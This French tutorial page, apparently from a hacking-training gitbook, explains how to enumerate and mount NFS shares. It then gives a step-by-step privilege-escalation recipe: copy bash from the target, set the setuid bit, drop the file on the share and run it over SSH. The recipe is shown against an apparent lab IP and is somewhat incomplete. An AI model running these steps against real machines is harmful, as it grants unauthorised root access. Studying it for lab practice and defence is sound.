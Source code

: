 # NFS

### NFS (Network File System)

⚠️ **Avertissement** : Ce contenu est strictement destiné à un usage éducatif et éthique dans le domaine de la cybersécurité. Toute utilisation illégale ou malveillante est interdite et engage la seule responsabilité de l’utilisateur.

### **Introduction**

NFS (Network File System) est un protocole utilisé pour partager des fichiers et des répertoires entre différents systèmes sur un réseau. Voici un guide complet pour interagir avec des partages NFS.

***

### **1. Découvrir les Partages NFS Disponibles**

Pour lister les partages disponibles sur une machine distante :

```bash
/usr/sbin/showmount -e [IP machine distante]
```

**Explication :**\
`showmount -e` affiche les répertoires exportés (partages NFS) disponibles sur la machine distante.

***

### **2. Créer un Point de Montage**

Avant de monter un partage NFS, créez un répertoire local qui servira de point de montage :

```bash
mkdir /tmp/mount
```

**Explication :**\
Ce répertoire sera utilisé pour accéder au contenu partagé par le serveur NFS.

***

### **3. Monter un Partage NFS**

Pour connecter un partage NFS à votre point de montage :

```bash
sudo mount -t nfs [IP machine distante]:[répertoire partagé] /tmp/mount -nolock
```

**Explication :**

* `-t nfs` : Indique que le système de fichiers est de type NFS.
* `[IP machine distante]:[répertoire partagé]` : Spécifie l’adresse IP du serveur et le répertoire partagé.
* `/tmp/mount` : Point de montage local sur votre machine.
* `-nolock` : Désactive le verrouillage des fichiers, utile pour éviter certains conflits avec NFS.

***

### **4. Transférer des Fichiers via SCP**

Pour récupérer un fichier (comme un exécutable `bash`) depuis une machine distante :

```bash
scp -i id_rsa [utilisateur]@[IP distante]:/chemin/vers/fichier ~/Téléchargements/
```

**Exemple :**

```bash
scp -i id_rsa cappucino@10.10.72.89:/bin/bash ~/Downloads/bash
```

**Explication :**

* `scp` : Utilitaire de copie sécurisée.
* `-i id_rsa` : Utilise une clé privée pour s’authentifier.
* `[utilisateur]@[IP distante]:[chemin fichier]` : Spécifie la machine distante, l’utilisateur, et le fichier à récupérer.
* `~/Téléchargements/` : Chemin local où le fichier sera sauvegardé.

***

### **5. Modifier les Droits sur le Fichier**

Pour définir le bit `suid` sur un fichier (ce qui permet d'exécuter le fichier avec les privilèges de son propriétaire) :

```bash
chmod +s bash
```

**Explication :**

* `+s` : Ajoute le bit `setuid`, permettant au fichier d’hériter des privilèges de l’utilisateur propriétaire.

***

### **6. Déplacer le Fichier sur le Partage NFS**

Déplacez le fichier modifié vers le partage monté :

```bash
mv ~/Downloads/bash /tmp/mount/[utilisateur]
```

***

### **7. Exécuter le Fichier sur la Machine Cible**

Reconnectez-vous à la machine distante en SSH et exécutez le fichier transféré :

```bash
ssh -i id_rsa [utilisateur]@[IP distante]
./bash
```

**Explication :**

* `ssh` : Accès à distance à la machine.
* `./bash` : Lance l’exécutable `bash` sur la machine distante avec les droits définis.

***

**Liens utiles :**

* [Mentions légales](https://dika-1.gitbook.io/road-to-hacker/mentions-legales)
* [Politique de confidentialité](https://dika-1.gitbook.io/road-to-hacker/politique-de-confidentialite)
* [Contactez-nous](mailto:dika-road-to-hacker@protonmail.com)
